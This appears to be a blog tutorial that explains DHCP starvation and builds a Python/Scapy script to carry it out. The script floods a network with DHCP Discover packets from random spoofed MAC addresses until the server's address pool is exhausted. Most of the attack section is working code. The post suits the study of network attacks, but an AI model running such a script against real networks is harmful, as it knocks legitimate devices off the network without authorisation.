 ```yaml
---
title: Performing a DHCP starvation attack
pubDate: "March 09 2024"
description: Understanding and performing a DHCP starvation attack over DHCP servers and networks.
tags: ["security", "networks", "hacking"]
heroImage: "/blog/2024-03-09-dhcp-starvation-attack/logo.png"
---
```


To understand what a DHCP starvation attack is, it is important to understand what a DHCP server is and how this protocol works. A DHCP server is a network component in charge of assigning IPs to different devices, associating the physical or MAC address to an IP. This process allows communication between the different devices, using the assigned IPs to identify each other and communicate.

A "DHCP starvation" attack is a type of malicious attack targeting networks that use the DHCP protocol for IP address allocation. The goal of this attack is to exhaust all the IP addresses available to the DHCP server in order to make it impossible for new devices to connect to the server, even causing a denial of service attack.

Next we are going to see how to do a small proof of concept of this attack, developing a Python script. The first thing to do is to install the necessary dependencies, in this case, the network packet manipulation library "Scapy".

```sh
pip install scapy
```

Let's start with the python code. Before starting to build packets, it is necessary to configure Scapy to ignore IP address verification responses, since we will be sending packets with forged IP addresses.

```python
conf.checkIPaddr = False
```

Once the basic configuration of Scapy is done, we move on to define our main function "starve". This function will receive a dictionary of parameters. It is not the best way to do this step, but for a quick script it is enough. The main parameters we will use will be: Delay time between each packet sent, network to attack and network interface through which we want to perform the attack.

```python
def starve(params):
    delay = params['delay'] if params.get('delay') is not None else 0.5
    network = params['network'] if params.get('network') is not None else '192.168.1.0/24'
    interface = params['interface'] if params.get('interface') is not None else 'eth0'
    is_verbose = params['verbose'] if params.get('verbose') is not None else 1
```

In the main loop of the starve function, we generate DHCP Discover packets with random MAC addresses, requesting specific IP addresses within the target network.

```python
for ip_dir in ips_for_feeding:
    src_mac = RandMAC()

    ether = Ether(src=src_mac, dst='ff:ff:ff:ff:ff:ff')
    ip = IP(src='0.0.0.0', dst='255.255.255.255')
    udp = UDP(sport=68, dport=67)
    bootp = BOOTP(op=1, chaddr=src_mac)
    dhcp = DHCP(options=[
        ('message-type', 'discover'), 
        ('requested_addr', str(ip_dir)),
        ('end')])

    packet = ether / ip / udp / bootp / dhcp

    sendp(packet, iface=interface, verbose=is_verbose)

    sleep(delay)
```

Finally and outside the function, we will add the command line arguments so that the user can specify all the above parameters. This will be done using the "argparse" library already included in python.

```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument(
        '--network', 
        type=str,
        nargs='?',
        help='IP address of the network (e.g. 192.168.1.0/24)',
    )
    parser.add_argument(
        '--delay', 
        type=str,
        nargs='?',
        help='Delay in seconds for each packet',
    )
    parser.add_argument(
        '--interface', 
        type=str,
        nargs='?',
        help='Interface to attack (eth0 as default)',
    )
    parser.add_argument(
        '--verbose', 
        type=int,
        nargs='?',
        help='Verbose mode 1=ON 0=OFF (1 as default)',
    )
    params = vars(parser.parse_args())
    starve(params)
```

The complete script code: [dhcp_starvation_attack.py](https://gist.github.com/jparadadev/ade6fa41d8e86f35c04bac09af86aa09)


